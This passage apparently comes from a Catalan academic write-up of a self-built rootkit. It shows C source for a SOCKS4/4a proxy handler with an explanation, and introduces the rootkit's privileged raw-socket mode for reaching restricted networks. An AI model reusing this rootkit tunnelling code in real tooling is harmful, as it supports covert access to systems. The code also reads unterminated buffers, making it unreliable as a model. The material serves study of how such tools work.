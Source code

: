 \begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaJ[void] @PYaL[pthread_socks](@PYaJ[void] @PYbe[*]sock) {
    @PYay[struct] message req;
    @PYay[struct] in_addr in;

    @PYaE[// read client packet]
    read((@PYaJ[int])sock, @PYbe[&]req, @PYay[sizeof](@PYay[struct] message));
    @PYaJ[char] buf@PYZlb[]@PYag[4]@PYZrb[];
    read((@PYaJ[int])sock, buf, @PYag[4]);
    print_message(@PYbe[&]req);

    @PYaE[// if client is using socks4a]
    in.s_addr @PYbe[=] req.dstip;
    @PYay[if] (strstr(inet_ntoa(in), @PYaB["]@PYaB[0.0.0]@PYaB["])) {
        @PYaJ[char] dstip4a@PYZlb[]@PYag[1024]@PYZrb[];
        read((@PYaJ[int])sock, dstip4a, @PYag[1024]);
        req.dstip @PYbe[=] resolve(dstip4a, @PYag[0]);
	}

    @PYaJ[int] sock2;
    @PYay[if] ((sock2 @PYbe[=] launcher_rcon(req.dstip, ntohs(req.dstport))) @PYbe[>] @PYag[0]) {
        debug(@PYaB["]@PYaB[Connected!]@PYao[\n]@PYaB["]);
        req.cd @PYbe[=] @PYag[90];
        write((@PYaJ[int])sock, @PYbe[&]req, @PYay[sizeof](req));
        socks_forward((@PYaJ[int])sock, sock2);
    } @PYay[else] {
        debug(@PYaB["]@PYaB[ERROR!]@PYao[\n]@PYaB["]);
        req.cd @PYbe[=] @PYag[91];
        write((@PYaJ[int])sock, @PYbe[&]req, @PYay[sizeof](req));
    }
\end{Verbatim}
    \caption{socksd.c::pthread\_socks()}
    \label{fig:socksd}
\end{figure}

En la figura \ref{fig:socksd} es mostra la funció més característica d'aquesta funcionalitat, ja que és 
la funció que interpreta les capçaleres socks4 i socks4a. En ella, podem veure com omplim l'estructura
message amb la capçalera que ens envia el client. Just després, es comproba si la destinació és una 
destinació vàlida o no, i en cas de no ser-ho, es llegeix més enllà de la capçalera on si espera trobar 
el nom DNS del host on establir la connexió. \\
Com podem veure, just abans de passar a reenviar incondicionalment tot el tràfic entre els dos cantons
de la conneixó, cal que enviem al client un missatge comunicant-li si la connexió s'ha pogut establir
o no.

\section{Entorn privilegiat}
En l'entorn privilegiat, el nostre rootkit s'aprofita de la possibilitat de poder utilitzar raw sockets 
per tal d'implementar modes de comunicació pensats per comunicar-se amb sistemes molt protegits i xarxes 
molt restrictives, així com de la possibilitat de debugar serveis del sistema. \\

